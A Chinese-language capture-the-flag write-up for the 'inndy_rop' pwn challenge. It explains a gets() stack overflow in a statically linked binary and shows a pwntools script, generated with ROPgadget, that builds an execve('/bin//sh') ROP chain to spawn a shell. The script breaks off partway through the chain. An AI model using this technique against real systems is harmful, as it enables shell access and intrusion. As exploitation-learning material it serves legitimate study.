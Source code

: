 # inndy_rop
>知识点：rop

checksec看了看文件，32位，只开了NX，然后放进IDA看看，发现很多函数，很复杂，那就是静态编译了，静态编译不会调用libc的函数，那就不能用ret2libc，然后发现了很明显的栈溢出
```c
int overflow()
{
  char v1[12]; // [esp+Ch] [ebp-Ch] BYREF

  return gets(v1);
}
```
ROPgadget有一个功能，直接利用程序中的片段拼凑rop链
```
ROPgadget --binary rop --ropchain
```
```
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
 1 from pwn import *
 2 from struct import pack
 3 
 4 q = process('./rop')
 5 context.log_level = 'debug'
 6 
 7 def payload():
 8     p = 'a'*0xc + 'bbbb'
 9     p += pack('<I', 0x0806ecda) # pop edx ; ret
10     p += pack('<I', 0x080ea060) # @ .data
11     p += pack('<I', 0x080b8016) # pop eax ; ret
12     p += '/bin'
13     p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
14     p += pack('<I', 0x0806ecda) # pop edx ; ret
15     p += pack('<I', 0x080ea064) # @ .data + 4
16     p += pack('<I', 0x080b8016) # pop eax ; ret
17     p += '//sh'
18     p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
19     p += pack('<I', 0x0806ecda) # pop edx ; ret
20     p += pack('<I', 0x080ea068) # @ .data + 8
21     p += pack('<I', 0x080492d3) # xor eax, eax ; ret
22     p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
23     p += pack('<I', 0x080481c9) # pop ebx ; ret
24     p += pack('<I', 0x080ea060) # @ .data
25     p += pack('<I', 0x080de769) # pop ecx ; ret
26     p += pack('<I', 0x080ea068) # @ .data + 8
27     p += pack('<I', 0x0806ecda) # pop edx ; ret
28     p += pack('<I', 0x080ea068) # @ .data + 8
29     p += pack('<I', 0x080492d3) # xor eax, eax ; ret
30     p += pack('<I', 0x0807a66f) # inc eax ; ret
31     p += pack('<I', 0x0807a66f) # inc eax ; ret
32     p += pack('<I', 0x0807a66f) # inc eax ; ret
33     p += pack('<I', 0x0807a66f) # inc eax ; ret
34     p += pack('<I', 0x0807a66f) # inc eax ; ret
35     p += pack('<I', 0x0807a66f) # inc eax ; ret
36     p += pack('<I', 0x0807a66f) # inc eax ; ret
37     p += pack('<I', 0x0807a66f) # inc eax ; ret
38     p += pack('<I', 0x0807a66f) # inc eax ; ret
39     p += pack('<I', 0x0807a66f) # inc eax ; ret
40     p += pack('<I', 0x0807a66f) # inc eax ; ret
```
